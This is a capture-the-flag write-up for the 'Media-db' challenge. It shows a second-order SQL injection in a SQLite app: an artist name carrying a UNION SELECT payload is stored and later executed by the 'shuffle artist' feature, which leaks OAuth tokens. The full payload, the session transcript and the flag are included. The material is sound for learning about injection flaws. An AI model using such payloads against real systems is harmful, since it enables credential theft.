 # Media-db

> https://ctftime.org/writeup/10327

At first, the application seems safe. It correctly removes quotes from the insert parameters and apostrophes from both select queries.
I also found out that SQLite 3 doesn't support backslash escaping, so we can't solve it this way. However the application allows us to shuffle artist.
It chooses random artist from database and then selects all his songs. And that's what we need. We can without any problems insert artist with apostrophes in his name to database.
This name will be later used in SELECT query which uses apostrophes to mark string. If we set artist name to `'and 1=2 union select 1,oauth_token from oauth_tokens;--`, this should execute union select query and return oauth_token instead of song name.
```
=== Media DB ===
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 1
artist name?
'and'1'='2' union select 1,oauth_token from oauth_tokens;--
song name?
any
1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 4
choosing songs from random artist: 'and'1'='2' union select 1,oauth_token from oauth_tokens;--

== new playlist ==
1: "CTF{fridge_cast_oauth_token_cahn4Quo}
" by "1"

1) add song
2) play artist
3) play song
4) shuffle artist
5) exit
> 5
bye
```

Flag: `CTF{fridge_cast_oauth_token_cahn4Quo}`